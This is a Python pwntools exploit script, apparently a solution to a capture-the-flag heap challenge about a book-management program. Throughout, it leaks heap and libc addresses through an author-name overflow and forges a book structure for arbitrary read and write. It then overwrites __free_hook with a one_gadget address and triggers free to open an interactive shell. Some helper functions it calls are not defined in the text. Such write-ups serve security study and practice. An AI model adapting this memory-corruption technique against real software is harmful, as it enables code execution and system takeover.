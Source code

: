 ```python
def createname(name):
	io.readuntil("name: ")
	io.sendline(name)

def changename(name):
	io.readuntil("> ")
	io.sendline("5")
	io.readuntil(": ")
	io.sendline(name)

def editbook(book_id,new_des):
	io.readuntil("> ")
	io.sendline("3")
	io.readuntil(": ")
	io.writeline(str(book_id))
	io.readuntil(": ")
	io.sendline(new_des)

def deletebook(book_id):
	io.readuntil("> ")
	io.sendline("2")
	io.readuntil(": ")
	io.sendline(str(book_id))

createname("A"*32)
createbook(128,"a",32,"a")
createbook(0x21000,"a",0x21000,"b")


book_id_1,book_name,book_des,book_author=printbook(1)
book1_addr=u64(book_author[32:32+6].ljust(8,'\x00'))
log.success("book1_address:"+hex(book1_addr))

payload=p64(1)+p64(book1_addr+0x38)+p64(book1_addr+0x40)+p64(0xffff)
editbook(book_id_1,payload)
changename("A"*32)
book_id_1,book_name,book_des,book_author=printbook(1)
book2_name_addr=u64(book_name.ljust(8,"\x00"))
book2_des_addr=u64(book_des.ljust(8,"\x00"))
log.success("book2 name addr:"+hex(book2_name_addr))
log.success("book2 des addr:"+hex(book2_des_addr))
libc_base=book2_des_addr-0x5b9010
log.success("libc base:"+hex(libc_base))

free_hook=libc_base+libc.symbols["__free_hook"]
one_gadget=libc_base+0x4f322 #0x4f2c5 0x10a38c 0x4f322
log.success("free_hook:"+hex(free_hook))
log.success("one_gadget:"+hex(one_gadget))
editbook(1,p64(free_hook)*2)
editbook(2,p64(one_gadget))
#gdb.attach(io)


deletebook(2)


io.interactive()
```
